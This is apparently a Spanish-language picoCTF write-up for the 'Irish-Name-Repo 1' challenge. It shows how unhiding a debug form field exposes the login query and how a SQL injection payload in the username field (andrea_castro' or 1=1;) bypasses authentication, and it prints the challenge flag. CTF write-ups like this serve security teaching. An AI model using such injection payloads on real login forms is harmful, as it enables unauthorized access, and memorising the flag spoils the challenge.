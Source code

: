 # Irish-Name-Repo 1
## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

## Soluciòn
Vemos que no podemos dar click en las imagenes, ademas notamos un menu en la esquina superior, vemos 3 partes, la que nos interesa es admin login
Si nos vamos ahi vemos unos cuadros de texto para hacer login, en las pistas nos dice que usemos inyeccion de SQL.
Al inspeccionar el login, vemos que un cuadro de Texto llamado debug se encuentra oculto, justo al lado del boton Login, si quitamos el hidden en debug y escribimos algun usuario, algun password y se abre un ultimo campo, al cual le ponemos "1", asì podemos ver que al mandar el login nos aparece la consulta.

```HTML
<input name="debug" value="0" type="hidden">

<input name="debug" value="0" type="">
```
![[Screenshot_2022-10-07_15_39_50.png]]

Al dar click nos manda a otra pàgina que nos dirà
```shell
username: andrea_castro
password: 1234
SQL query: SELECT * FROM users WHERE name='andrea_castro' AND password='1234'

# Login failed.
```

Al inyectar codigo SQL podemos cambiar el como se verifica la contraseña y usuario que se nos está pidiendo, si se agrega el "or 1=1", como esta parte siempre es verdadera, podemos ingresar y obtener la bandera.

```
username: andrea_castr0
password: 1234
SQL query: SELECT * FROM users WHERE name='andrea_castro' AND password='1234'

# Login failed.
```
podemos poner lo siguiente en el campo de username al volver a loggearnos
```
andrea_castro' or 1=1;
```
de pasword le ponemos cualquiera y  ponemos el 1 en el ùltimo campo.
![[Screenshot_2022-10-07_15_48_23.png]]

mandamos el login y nos arrojara la bandera enuna nueva pàgina.
```
username: andrea_castro' or 1=1;
password: 1234
SQL query: SELECT * FROM users WHERE name='andrea_castro' or 1=1;' AND password='1234'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}
```

picoCTF{s0m3_SQL_fb3fe2ad}

## Referencias
- []()
